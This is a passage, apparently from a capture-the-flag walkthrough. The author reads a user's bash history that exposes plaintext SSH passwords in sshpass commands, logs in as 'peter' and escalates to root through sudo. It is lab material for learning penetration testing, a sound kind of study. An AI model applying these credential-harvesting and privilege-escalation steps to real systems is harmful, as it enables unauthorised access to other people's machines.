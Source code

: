 ```r
exit
exit
exit
top
ps aux
exit
exit
id
cat: ./peter/.bash_history: Permission denied
find: ‘./peter/.cache’: Permission denied
exit
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit
exit
exit
exit
exit
exit
exit
exit
exit
whoami
exit
exit
exit
top
exit
SHayslett@red:/home$ 
```

Two more passwords XD. I logged in as <i>peter</i> via ssh and found that this user is added in the sudoers group.

```r
m1m3@kali:~$ ssh -t peter@192.168.1.8 '/bin/bash'

-----------------------------------------------------------------
~          Barry, dont forget to put a message here           ~
-----------------------------------------------------------------
peter@192.168.1.8's password: 
peter@red:~$ id
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
peter@red:~$ sudo /bin/bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
root@red:~# id
```
